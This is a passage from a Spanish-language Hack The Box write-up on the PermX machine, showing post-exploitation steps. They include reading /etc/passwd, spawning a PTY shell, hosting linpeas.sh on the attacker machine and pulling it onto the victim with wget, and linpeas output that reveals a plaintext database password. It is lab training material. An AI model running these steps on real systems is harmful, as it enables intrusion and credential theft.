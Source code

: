 ```bash
$ cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
mtz:x:1000:1000:mtz:/home/mtz:/bin/bash
```

Para conseguir una bash más bonita:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Ahora para encontrar información podemos usar linpeas.sh:

Iniciamos un servidor de python en la carpeta donde tenemos el linpeas
```bash
┌──(mili㉿kali)-[~/Desktop/HTB/PermX]
└─$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.10.11.23 - - [02/Oct/2024 00:46:35] "GET /linpeas.sh HTTP/1.1" 200 -
```

Y lo bajamos en la máquina víctima 
```bash
www-data@permx:/var/www/html$ wget http://10.10.14.15:8888/linpeas.sh
wget http://10.10.14.15:8888/linpeas.sh
--2024-10-01 22:46:34--  http://10.10.14.15:8888/linpeas.sh
Connecting to 10.10.14.15:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 824942 (806K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 805.61K  3.08MB/s    in 0.3s    

2024-10-01 22:46:35 (3.08 MB/s) - ‘linpeas.sh’ saved [824942/824942]

www-data@permx:/var/www/html$ ls
ls
404.html     contact.html                 img         linpeas.sh
LICENSE.txt  courses.html                 index.html  scss
READ-ME.txt  css                          js          team.html
about.html   elearning-html-template.jpg  lib         testimonial.html

```

```bash
╔══════════╣ Searching passwords in config PHP files
/var/www/chamilo/app/config/configuration.php:                'show_password_field' => false,                                                                                                
/var/www/chamilo/app/config/configuration.php:                'show_password_field' => true,
/var/www/chamilo/app/config/configuration.php:        'wget_password' => '',
/var/www/chamilo/app/config/configuration.php:    'force_different_password' => false,
/var/www/chamilo/app/config/configuration.php:$_configuration['auth_password_links'] = [
/var/www/chamilo/app/config/configuration.php:$_configuration['db_password'] = '03F6lY3uXAP2bkW8'
```
